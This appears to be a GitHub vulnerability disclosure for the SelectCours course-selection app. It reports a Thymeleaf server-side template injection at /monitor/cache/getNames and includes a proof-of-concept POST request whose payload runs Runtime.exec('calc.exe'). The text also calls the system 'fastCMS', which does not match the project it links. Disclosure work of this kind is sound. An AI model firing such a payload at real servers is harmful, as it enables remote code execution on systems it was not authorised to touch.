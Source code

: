 # SelectCours-_Sever-side-Template-injection  
There is a serious vulnerability in the fastCMS system. The Server Side Template Injection vulnerability may lead to sensitive information leakage, code execution, GetShell, and other issues.  
system URL:  
https://gitee.com/rahman/select-cours  
https://github.com/qinghongyou/selectcourse  
From the pom.xml file in the system, it can be found that the system is using a lower version of thymeleaf.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/84aa5890-6904-4678-8c60-292a41a27b8e)  
And found that the return is controllable in the/getNames interface.Therefore, there is a thymeleaf template injection vulnerability in the system.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/a6d346b9-c302-46af-8a0b-f45a9cf03552)  
Find the function point in the front-end page to capture and modify data.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/3a4fc8e7-85da-4413-864a-3a51b1ff0e21)  
payload:${T     (java.lang.Runtime).getRuntime().exec("calc.exe")}  
POC:
POST /monitor/cache/getNames HTTP/1.1  
Host: 127.0.0.1:8899  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0  
Accept: */*  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 67  
Origin: http://127.0.0.1:8899  
Connection: close  
Referer: http://127.0.0.1:8899/monitor/cache  
Cookie: JSESSIONID=244ca31b-26cc-45cc-af03-cbda23de6f29  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  

fragment=${T     (java.lang.Runtime).getRuntime().exec("calc.exe")}  


When clicking to send a data packet, malicious code will be executed to start the computer.
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/19ac3c89-80c8-4c80-a44c-8805e346078f)  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/85e85737-4804-4fe8-93bc-5519968d7524)








